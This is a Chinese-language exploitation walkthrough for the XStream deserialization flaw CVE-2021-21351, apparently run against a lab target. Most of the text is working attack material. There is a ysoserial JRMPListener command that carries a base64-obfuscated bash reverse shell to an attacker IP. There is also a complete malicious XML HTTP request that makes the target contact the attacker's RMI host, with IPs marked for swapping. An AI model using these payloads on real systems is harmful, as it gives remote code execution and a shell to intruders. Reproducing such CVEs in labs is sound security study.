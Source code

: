 xstream 代码执行 (CVE-2021-21351)

描述: XStream是一个简单的基于Java库，Java对象序列化到xml，反之亦然(即：可以轻易的将Java对象和xml文档相互转换)。 攻击者可以操纵已处理的输入流并替换或注入对象，从而执行从远程服务器加载的任意代码。

打开网页

![image-20211010203613142](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010203613142.png)

### 获取反弹shell

![image-20211010203820738](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010203820738.png)

通过攻击机ysoserial通过某一端口实施攻击（此处为6666）
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 “bash -c{echo,YmFzaCAtaT4mIC9kZXYvdGNwLzE5Mi4xNjguMTkuMTI4LzIzMzMzIDA+JjE=}|{base64,-d}|{bash,-i}”

![image-20211010203938126](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010203938126.png)

同时监听本地某一个端口（23333）

![image-20211010204028598](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010204028598.png)

然后抓包重新访问该网页，将大佬的poc写入，修改其中的evil-ip和原有的端口为攻击端口6666，并将host-ip改为目标靶机

```python
POST / HTTP/1.1
Host: http://192.168.1.192:20529/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3123
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.19.128</string>
                                                <int>6666</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.202.128</host>
                                        <port>6666</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

![image-20211010204622881](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010204622881.png)

改poc包

成功反弹![image-20211010204656370](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211010204656370.png)